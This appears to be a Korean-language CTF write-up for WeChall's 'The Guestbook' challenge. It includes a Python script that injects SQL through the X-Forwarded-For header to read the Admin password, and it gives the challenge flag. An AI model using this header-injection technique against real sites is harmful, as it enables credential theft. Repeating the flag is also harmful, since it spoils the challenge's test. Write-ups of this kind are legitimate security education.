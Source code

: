 # [WeChall] The Guestbook - Writeup

## SQL Injection

`X-Forwarded-For` 헤더에 SQL Injection이 가능하다.

``` python
import urllib.parse, urllib.request

def main():
    url = 'http://www.wechall.net/challenge/guestbook/index.php'
    post_data = {
        'message':'hello',
        'sign':'Sign Guestbook'
    }
    headers = {
        'X-Forwarded-For':"',(select gbu_password from gbook_user where gbu_name='Admin' limit 1))#",
        'Content-Type':'application/x-www-form-urlencoded',
        'Cookie':'WC=**secret**;'
    }

    req = urllib.request.Request(url, urllib.parse.urlencode(post_data).encode(), headers)
    res = urllib.request.urlopen(req).read()
    res = str(res)

    print(res)

if __name__ == '__main__':
    main()
```

___

## Answer

flag: `TheBrownFoxAndTheLazyDog`